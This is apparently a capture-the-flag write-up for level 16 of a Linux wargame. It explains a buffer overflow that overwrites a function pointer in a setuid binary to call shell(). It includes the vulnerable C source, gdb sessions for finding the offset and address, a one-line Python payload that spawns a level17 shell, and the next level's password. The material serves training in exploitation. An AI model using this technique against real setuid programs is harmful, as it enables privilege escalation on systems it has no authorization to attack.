 # Level16

## This level's goal
-

***

```
[level16@ftz level16]$ ls -l
-rwsr-x---    1 level17  level16     14017 Mar  8  2003 attackme
-rw-r-----    1 root     level16       235 Mar  8  2003 hint

[level16@ftz level16]$ cat hint

#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

```
[level16@ftz tmp]$ cat distance.c
#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();

  printf("Input is : %s\n &buf  : %p\n &call : %p \n &crap : %p\n", buf, buf, &call, &crap);
}

[level16@ftz tmp]$ gcc distance.c -o distance
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048434 <main+3>:    sub    $0x38,%esp

[level16@ftz tmp]$ ./distance
AAAA
Hello there!
Input is : AAAA

&buf  : 0xbffff020
&call : 0xbffff048
&crap : 0xbffff04c
```

0x38 means 56bytes, buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

```
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048462 <main+49>:   call   *%eax

(gdb) break *0x08048462
(gdb) run
Starting program: /home/level16/tmp/distance
AAAA

(gdb) x/16x $esp
0xbfffe1b0:     0x41414141      0x0000000a      0x42015481      0x0804836a
0xbfffe1c0:     0x42130ef8      0x42130a14      0xbfffe1d8      0x080482d9
0xbfffe1d0:     0x42130a14      0x4000c660      0x08048419      0x08048492
0xbfffe1e0:     0x42130a14      0x40015360      0xbfffe208      0x42015574

(gdb) x/s 0xbfffe1b0
0xbfffe1b0:      "AAAA\n"

(gdb) x/x 0xbfffe1d8
0xbfffe1d8:     0x08048419

(gdb) x/x 0xbfffe1dc
0xbfffe1dc:     0x08048492

(gdb) x/x 0x08048419
0x8048419 <printit>:    0x83e58955

(gdb) disas printit
0x08048419 <printit+0>: push   %ebp

(gdb) disas shell
0x080483ec <shell+0>:   push   %ebp
```

As above, I could see that the printit()'s address is 0x83e58955, and shell() is 0x080483ec.

```
[level16@ftz level16]$ gdb -q attackme
(gdb) disass main
0x0804853f <main+39>:   call   *%eax

(gdb) x/x 0x0804853f
0x804853f <main+39>:    0xc3c9d0ff

(gdb) disass printit
0x08048500 <printit+0>: push   %ebp

(gdb) disass shell
0x080484d0 <shell+0>:   push   %ebp

```

The point is that you need change to \*printit()'s address to shell()'s adress.

The attack code will be 40 bytes dummy strings + shell adress(0x080484d0).

```
[level16@ftz level16]$ (python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme

id
uid=3097(level17) gid=3096(level16) groups=3096(level16)

my-pass
Level17 Password is "king poetic".
```


